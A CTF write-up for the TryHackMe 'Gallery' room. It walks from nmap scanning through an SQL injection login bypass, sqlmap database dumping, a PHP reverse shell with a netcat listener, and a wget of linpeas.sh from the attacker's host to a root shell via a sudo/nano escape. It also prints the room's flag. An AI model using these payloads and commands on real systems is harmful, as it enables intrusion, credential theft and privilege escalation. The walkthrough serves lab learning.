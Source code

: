 ```yaml
---
title: Gallery
description: Try to exploit our image gallery system
author: xFraylin
date: 2024-12-17 09:52:00 +0800
categories: [Tryhackme]
tags: [CTF]
image:
  path: https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/port.png?raw=true
---
```


## Introduction
First lets start the machine.
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/start.jpg?raw=true){: width="1200" height="630" }
`Let's answer the questions`

## How Many Ports Are open?
Firt's Lets can the IP `10.10.27.38`
nmap -sCV `10.10.27.38`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/scan.jpg?raw=true){: width="1200" height="630" }
There are two ports open, `80, 8080` Let's navigate to `http://10.10.27.38:8080`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/cms.jpg?raw=true)
So I think that is vulnerable to sql injection so i tried to log with `'OR 1=1-- -` user:pass
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/sql.jpg?raw=true){: width="1200" height="630" }
It works, now let's go to <https://www.exploit-db.com/> then in search filter type `Simple Image Gallery`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/vuln.png?raw=true){: width="1200" height="630" }
So in that `db` says that is vulnerable to sql injection, let's read that exploit. the exploit says this.
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/sqlex.jpg?raw=true){: width="1200" height="630" }
`let's do the same as the exploit`
Go to Albums
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/album.jpg?raw=true){: width="1200" height="630" }
`Click on albums` Then click on Sample images, once there, turn on `intercept` in burp, and turn on `foxy proxy` Or your favorite way
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/pulsa.jpg?raw=true){: width="1200" height="630" }
`Once you got burp suite on` click on whatever image, i click on test.jpg
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/int.jpg?raw=true){: width="1200" height="630" }
I intercepted the request, As the exploit said, we have to save the request now.
i saved the request as `gallery.test`
Let's run the command 
```bash
sqlmap -r gallery.test --dbs 
```
>
1. `sqlmap` invoke sqlmap
2. `-r gallery.test` Use a file with a http request to test sql injections
3. `--dbs` Enumerates the available databases if a SQL vulnerability is found.
{: .prompt-info }
After that we found this.
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/sqls.jpg?raw=true){: width="1200" height="630" }
`Now that we found DB` Let's run this command
>
```bash
sqlmap -r gallery.test -D gallery_db --tables --dbs
```
1. `-D` selects the database
2. `--tables` Enumerates the tables within the select database
{: .prompt-info }
After run that command we found something more.
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/tables.jpg?raw=true){: width="1200" height="630" }
`Now that we got those tables, `users` sounds interestings` let's run this command
>
```bash
sqlmap -r gallery.test -D gallery_db -T users --dump
```
1. `-T` selects the users table
2. `--dump`  Extracts and shows the entire content of the users table.
{: .prompt-info }
After running that command we got this
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/hash.jpg?raw=true)
`We got almost all answers os the task 1` 
Let's go back to `http://10.10.27.38:8080` and click on album, go to sample images, then there click on add new
before upload something, go to <https://pentestmonkey.net/tools/web-shells/php-reverse-shell> and configure the script
After you configure your script, Then upload the file
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/sub.jpg?raw=true){: width="1200" height="630" }
`before  doing something, lets set up, a Listener in our terminal`
>
```bash
nc -nlvp 4444
```
> `nc` calls netcat
1. `n` Avoids netcat dns resolution
2. `l` Puts Netcat in listening mode, waiting for incoming  connections.
3. `v` Enables Verbose mode | More details 
4. `p` Specifies the port to listen on
5. `4444` The chosen port number.
{: .prompt-info }
then Click on the file that we uploaded before
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/lst.jpg?raw=true)
`We got the shell`
As you can see i tried to read de `user.txt` but i dont got permissions
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/data.jpg?raw=true)
Then in the target machine I move to, `cd /var/www/html`  In that directory I got enough permissions

Then in my own machine I set up a server to get `linpeas.sh` to the target machine
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/linp.jpg?raw=true){: width="1200" height="630" }
>
In the target machine I run this command to get the linpeas.sh
```
wget http://0.0.0.0:8080/linpeas.sh
```
{: .prompt-info }
Then now let's run the linpeas
Before that give the execution permissions with `chmod +x linpeas.sh`
Then run `./linpeas.sh`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/exe.jpg?raw=true)
After run the script, we found this.
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/psw.jpg?raw=true){: width="1200" height="630" }
`This means that mike was trying to log but by errors he put the pasword within a command` But let's confirms firts
Let's see the Bash_history
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/bash.jpg?raw=true)
As we can see he was trying to do something but he miss the bash_history
`Now let's`change the user with `su mike` with the password `b3stpassw0rdbr0xx` and it's works
Now let's read the user.txt
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/flag.jpg?raw=true){  :width="1200" height="630" }

After that if we type says this
```bash
sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
 ```

 The path /opt/rootkit.sh says this
 ```bash
 #!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

If we type this
```
sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
read
Error opening terminal: unknown.
```
There is an error then let's do this
`export TERM=xterm` to export the terminal
Go to <https://gtfobins.github.io/gtfobins/nano/#sudo>
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/sudo.jpg?raw=true){:width="1200" height="630" }

`With the export TERM=xterm we have to access to nano, when with run the script with`
``` bash
sudo /bin/bash /opt/rootkit.sh
`Then pulse CTRL + R and type' reset; sh 1>&0 2>&0 and CTRL + X after that we have go to the root access`
```

Here we go
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gallery/root.jpg?raw=true)

```bash
# whoami
root
cd root/
cat root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

### NOTE
If you see any dramatical errors excuse me, IM learning english :(
